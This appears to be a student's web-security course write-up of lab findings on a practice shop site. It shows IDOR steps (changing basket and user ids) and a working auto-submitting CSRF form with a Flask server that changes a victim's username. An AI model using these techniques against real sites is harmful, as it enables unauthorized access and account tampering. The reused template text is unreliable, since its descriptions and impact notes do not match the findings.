 # Web Application Security

## Week 01  

### Authorization Bypass:

#### Wasdat - View Basket

**Title:** Anonymous user can modify site settings  

**Description:** The endpoint that receives modified settings does not check for authentication. target.app's settings can be modified as an anonymous user with e.g. curl. The site seems to otherwise perform required checks so looks like this is simply an omission in the target.app's settings endpoint.  

**Steps to produce:**  

1. Navigate to `https://wasdat.fi/3000`.
2. Login in to the website.
3. Head to basket.
4. Open developer tools and view `storage` tab.
5. In `storage` tab, select `session storage`.  
    5. You can find attribute `bid` = `basket id`.
6. Change `bid` value for example: `3`. Navigate to any other view in the website and open `basket` again.
7. Other users basket is now visible to you.


* Impact estimation:
    * Low Severity. User can make harm for other users such as add or remove items but can't access any
* Mitigation:
    * Modify settings endpoint to check for authentication&authorization properly
        * See: https://owasp.org/www-project-top-ten/2017/A5_2017-Broken_Access_Control.html (good: it's good to be able to provide a link or links that provide more information and guidance)
        * See: https://imaginary-web-framework-targetapp-is-made-with.com/docs/best-practices/authorization (excellent: if you are able, it's great to refer to guidance that is most relevant to target application)

---

#### Main Target - Wasdat.fi

**Title:** Anonymous user can modify site settings  

**Description:** The endpoint that receives modified settings does not check for authentication. target.app's settings can be modified as an anonymous user with e.g. curl. The site seems to otherwise perform required checks so looks like this is simply an omission in the target.app's settings endpoint.  

**Steps to produce:**  

1. Navigate to `https://wasdat.fi`.
2. Login in to the website.
3. When logged in hover over dropdown navigation on top left and press `order history`.
4. When viewing your order history, url is: `http://wasdat.fi/user/13/orders`.
5. Change user id to see view other peoples order history. user id `3` exposes the flag.
> `http://wasdat.fi/user/3/orders`
![image](../images/was1.PNG)


* Impact estimation:
    * Low Severity. User can make harm for other users such as add or remove items but can't access any
* Mitigation:
    * Modify settings endpoint to check for authentication&authorization properly
        * See: https://owasp.org/www-project-top-ten/2017/A5_2017-Broken_Access_Control.html (good: it's good to be able to provide a link or links that provide more information and guidance)
        * See: https://imaginary-web-framework-targetapp-is-made-with.com/docs/best-practices/authorization (excellent: if you are able, it's great to refer to guidance that is most relevant to target application)

---

#### Main Target - Wasdat.fi

**Title:** Cross Site Forgery - Change victim username 

**Description:** The endpoint that receives modified settings does not check for authentication. target.app's settings can be modified as an anonymous user with e.g. curl. The site seems to otherwise perform required checks so looks like this is simply an omission in the target.app's settings endpoint.  

**Steps to produce:**  

1. Create a new `html` file.
```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <title>Juice Shop Redirect</title>
        <script>
            window.onload = function() {
                document.getElementById("autoSubmitForm").submit();
            }
        </script>
    </head>

    <body>
        <form action="http://wasdat.fi:3000/profile" method="post" id="autoSubmitForm">
            <input name="username" value="ab0197" />
            <input type="submit">
        </form>
    </body>
</html>
```
2. Create a simple python server:

```py
from flask import Flask, render_template

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('form.html')

if __name__ == '__main__':
    app.run(debug=True)
```
3. Start sever `python3 app.py`
4. Victim user is logged in to `http://wasdat.fi:3000` and goes to your url, in this case: `http://127.0.0.1:5000/` his username will be automically changed to `ab0197` and will be directed to his profile page.  

![image](../images/was3.png)


* Impact estimation:
    * Low Severity. User can make harm for other users such as add or remove items but can't access any
* Mitigation:
    * Modify settings endpoint to check for authentication&authorization properly
        * See: https://owasp.org/www-project-top-ten/2017/A5_2017-Broken_Access_Control.html (good: it's good to be able to provide a link or links that provide more information and guidance)
        * See: https://imaginary-web-framework-targetapp-is-made-with.com/docs/best-practices/authorization (excellent: if you are able, it's great to refer to guidance that is most relevant to target application)

---

